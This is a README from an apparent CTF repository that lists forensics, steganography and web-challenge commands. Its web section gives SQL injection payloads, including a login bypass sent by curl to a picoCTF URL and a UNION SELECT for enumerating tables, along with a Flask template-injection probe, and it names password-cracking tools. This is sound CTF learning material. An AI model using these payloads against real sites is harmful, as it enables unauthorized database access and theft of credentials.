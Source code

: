# CTF tools & Resources
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS
### [Forensics, Linux Tools and Commands](#linux)
### [Web](#web)
### [Misc](#misc)

## <a name = "linux">Basic linux tools and Commands</a>
* binwalk -e <filenam> : //Extracts hidden files
* steghide extract -sf <filename> : //Extracts hidden text in the image
* xxd <file name> : //Prints the Hex version of file
* grep "element" //finds the element
* strings <filename> // gives the strings hidden in the file
* hexedit <filename> //hexeditor
* java -jar stegsolve.jar 
* pngcheck <filename> //checks if the png file is broken
* tar -xvf <filename> // untars the tar files
* cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      
 // used this command to obtain the flag from the java file having flag characters written in an scrambled order 
* fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip     
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 
* ltrace ./file     is a helphul command to see the functioning of a program
also use strace
* cat /proc/(process id)/             
we can see all files running in the process with given process id.
* exiftool for meta data
* use tcpflow -r file  for pcap
* zsteg :- another great stego tool
* john the ripper :- tool for password cracking

## <a name = "web">Web</a>
* curl "https://2019shell1.picoctf.com/problem/4162/login.php" --data "username=admin&password='+or+1=1--" && echo 
this command will find the password to username admin stored in database.
* Robots -->>> url/robots.txt (shows hidden info)
* Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.
* 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
*  Postman great tool for web challs
* If a website uses flask, then try using {{ 7*7 }}to see its working, then use {{ config }} in the text fields

## <a name = "misc">Misc</a>
* Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.
*  git show -1 filename.txt > to compare against the last revision of file
   git show -2 filename.txt > to compare against the 2nd last revision of file
* Use this site for substitution https://quipqiup.com/
* Detect the DMFT Tools http://dialabc.com/sound/detect/index.html
* Online Stegnographic Decoder :- https://futureboy.us/stegano/decinput.html

